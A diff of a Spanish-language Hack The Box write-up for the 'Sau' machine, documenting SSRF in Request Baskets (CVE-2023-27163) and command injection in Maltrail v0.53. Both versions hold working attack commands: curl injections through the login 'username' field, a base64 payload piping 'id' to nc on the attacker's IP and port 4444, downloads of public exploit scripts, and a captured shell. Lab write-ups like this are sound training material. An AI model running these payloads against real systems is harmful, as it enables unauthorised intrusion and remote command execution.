

Before and after one commit to germanvegaa/writeups, a Markdown page: HTB/sau/README.md, the part around the change. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Reescribir walkthrough de Sau con el camino real de resolución

````diff
--- a/HTB/sau/README.md
+++ b/HTB/sau/README.md
@@ -28,29 +28,56 @@ whatweb http://10.129.229.26:55555/
 
 ## SSRF en Request Baskets (CVE-2023-27163)
 
-Request Baskets en versiones <= 1.2.1 permite crear una cesta cuyo `forward_url` apunta a cualquier URL, incluyendo direcciones internas del propio host, lo que habilita SSRF hacia servicios que solo escuchan en localhost. Usé el PoC público de la CVE:
+`searchsploit request-baskets` no devolvió nada local, así que antes de buscar un PoC probé la API a mano. Fui iterando contra puertos y rutas equivocadas (`5000`, `50000`, `/baskets/test` sin el prefijo `/api/`) hasta confirmar que la API real vive en el propio 55555, bajo `/api/baskets/<nombre>`:
+
+```
+curl -X POST "http://10.129.229.26:55555/api/baskets/test2"
+curl -X GET "http://10.129.229.26:55555/baskets/test2"
+```
+
+Con la ruta correcta localizada, Request Baskets en versiones <= 1.2.1 permite crear una cesta cuyo `forward_url` apunta a cualquier URL, incluyendo direcciones internas del propio host, lo que habilita SSRF hacia servicios que solo escuchan en localhost. Usé el PoC público de la CVE en vez de seguir construyendo el JSON a mano:
 
 ```
 wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/refs/heads/main/CVE-2023-27163.sh
 chmod +x CVE-2023-27163.sh
+./CVE-2023-27163.sh http://10.129.229.26:55555/ localhost
+```
+
+La primera prueba con `localhost` como destino fue solo para confirmar que el script funcionaba. La repetí apuntando de verdad al loopback del objetivo:
+
+```
 ./CVE-2023-27163.sh http://10.129.229.26:55555/ http://127.0.0.1
 ```
 
-El script crea una cesta que reenvía las peticiones hacia `127.0.0.1`. Consultando esa cesta quedó expuesto qué corre en el localhost del host, solo accesible desde dentro: una instancia de Maltrail v0.53.
+La cesta creada reenvía las peticiones hacia `127.0.0.1`. Antes de saber qué había ahí probé también forzar la ruta `/login` en el forward:
+
+```
+./CVE-2023-27163.sh http://10.129.229.26:55555/ http://127.0.0.1/login
+```
+
+Consultando la cesta quedó expuesto qué corre en el localhost del host, solo accesible desde dentro: una instancia de Maltrail v0.53.
 
 ## RCE en Maltrail v0.53
 
-Maltrail v0.53 tiene una inyección de comandos no autenticada en el endpoint de login, a través del parámetro `username`, que se procesa sin sanitizar. Usando la cesta creada por el PoC como proxy hacia el Maltrail interno, probé la inyección directamente contra la ruta de la cesta:
+`searchsploit Maltrail` (probando varias grafías: `Maltrail (v0.53)`, `Maltrail v0.53`, `Maltrail 0.53`) tampoco devolvió nada local. Maltrail v0.53 tiene una inyección de comandos no autenticada en el endpoint de login, a través del parámetro `username`, que se procesa sin sanitizar. Antes de intentar una reverse shell confirmé la ejecución con un comando simple, probando tanto backticks como `$()`, contra la cesta que actúa de proxy hacia el Maltrail interno:
 
 ```
-curl 'http://10.129.229.26:55555/bsmoel' -d 'username=;`echo aWQgfCBuYyAxMC4xMC4xNC4yMjQgNDQ0NA== | base64 -d | sh`'
+curl 'http://10.129.229.26:55555/bsmoel' -d 'username=;`id`;'
+curl 'http://10.129.229.26:55555/bsmoel' -d 'username=;$(id);'
 ```
 
-Después usé el exploit público para automatizar el envío de una reverse shell:
+Con la inyección confirmada, un one-liner de reverse shell normal (con paréntesis, comillas y `&`) no sobrevivía al paso por el body del POST y el propio shell remoto. Para evitarlo, codifiqué el payload en base64 y lo decodifiqué en remoto antes de ejecutarlo. Los primeros intentos fallaron porque el comando codificado no incluía el puerto del listener:
 
 ```
-wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/refs/heads/main/exploit.py
-python3 exploit.py 10.10.14.224 4444 http://10.129.229.26:55555/bsmoel
+echo -n "id | nc 10.10.14.224" | base64
+curl 'http://10.129.229.26:55555/bsmoel' -d 'username=;echo aWQgfCBuYyAxMC4xMC4xNC4yMjQ= | base64 -d;'
+```
+
+Añadí el puerto y probé primero contra el 80, que exige root para escuchar, así que cambié a un puerto alto (4444):
+
+```
+echo -n "id | nc 10.10.14.224 4444" | base64
+curl 'http://10.129.229.26:55555/bsmoel' -d 'username=;`echo aWQgfCBuYyAxMC4xMC4xNC4yMjQgNDQ0NA== | base64 -d | sh`'
 ```
 
 Con un listener en escucha capturé conexión como `puma`:
@@ -60,6 +87,19 @@ $ nc -lvnp 4444
 listening on [any] 4444 ...
 connect to [10.10.14.224] from (UNKNOWN) [10.129.229.26] 49112
 uid=1001(puma) gid=1001(puma) groups=1001(puma)
+```
+
+Esa conexión manual con `nc` no era una pty completa. Para tener una shell estable usé el exploit público de Maltrail v0.53, que hace lo mismo pero spawnea una pty:
+
+```
+wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/refs/heads/main/exploit.py
+python3 exploit.py 10.10.14.224 4444 http://10.129.229.26:55555/bsmoel
+```
+
+Hicieron falta varios reintentos, reiniciando el listener y ajustando el script, hasta que se estabilizó la conexión. Con la shell ya como `puma`, hice el upgrade de TTY habitual:
+
+```
+stty raw -echo; fg
 ```
 
 ## Escalada a root
````
